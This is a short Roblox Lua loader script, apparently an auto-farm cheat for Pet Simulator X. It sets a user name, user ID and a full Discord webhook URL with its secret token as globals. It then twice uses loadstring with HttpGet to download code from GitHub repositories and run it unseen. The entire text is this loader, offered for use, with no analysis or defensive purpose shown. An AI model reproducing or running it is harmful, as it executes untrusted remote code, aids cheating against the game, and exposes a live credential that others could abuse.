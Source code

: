 _G.UserName = "1650536385"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXScripts/main/AutoFarm.lua", true))()

_G.UserID = 1650536385
_G.WebHook = "https://discord.com/api/webhooks/1084503398595965070/AFFDsw-etKraRCrZ2SDrEeOdFK0U1q0bVhBKnaYjxh9Yr2zoGgI9MeaRsQhhZwpEBlb-"
loadstring(game:HttpGet("https://raw.githubusercontent.com/vestyx/PetSimulatorXAutoFarm/main/HasteFarm.lua", true))()
